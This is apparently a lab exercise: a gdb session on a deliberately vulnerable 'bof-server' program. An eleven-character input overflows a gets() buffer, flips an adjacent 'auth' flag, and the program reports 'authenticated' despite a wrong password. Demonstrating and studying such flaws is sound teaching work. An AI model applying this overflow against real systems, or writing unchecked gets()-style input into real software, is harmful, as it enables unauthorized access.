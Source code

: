 ```
   0x00000000004011f0 <+9>:	mov    $0x0,%eax
   0x00000000004011f5 <+14>:	pop    %rbp
   0x00000000004011f6 <+15>:	ret
End of assembler dump.
(gdb) si
authenticate () at lab/bof-server.c:9
9	{
(gdb) disas
Dump of assembler code for function authenticate:
=> 0x0000000000401156 <+0>:	push   %rbp
   0x0000000000401157 <+1>:	mov    %rsp,%rbp
   0x000000000040115a <+4>:	sub    $0x20,%rsp
   0x000000000040115e <+8>:	movl   $0x0,-0x4(%rbp)
   0x0000000000401165 <+15>:	mov    $0x402010,%edi
   0x000000000040116a <+20>:	call   0x401030 <puts@plt>
   0x000000000040116f <+25>:	lea    -0xe(%rbp),%rax
   0x0000000000401173 <+29>:	mov    %rax,%rdi
   0x0000000000401176 <+32>:	call   0x401060 <gets@plt>
...
End of assembler dump.
(gdb) b *0x0000000000401176
Breakpoint 2 at 0x401176: file lab/bof-server.c, line 15.
(gdb) c
Continuing.
enter the password:

Breakpoint 2, 0x0000000000401176 in authenticate () at lab/bof-server.c:15
15	    gets(buff);
(gdb) i loc
buff = "\000\000\000\000\000\000\260\\\376", <incomplete sequence \367>
cmd = "\000\000\000\000\000\000\000\000\000"
auth = 0
(gdb) n
0123456789a
17	    if(strcmp(buff, "12345"))
(gdb) i loc
buff = "0123456789"
cmd = "\000\000\000\000\000\000\000\000\000"
auth = 97
(gdb) c
Continuing.
wrong password
authenticated
your files:
[Detaching after vfork from child process 31163]
arsenal  build	Cargo.lock  Cargo.toml	lab  LICENSE  Makefile	README.md  target
[Inferior 1 (process 30821) exited normally]
(gdb) quit

```
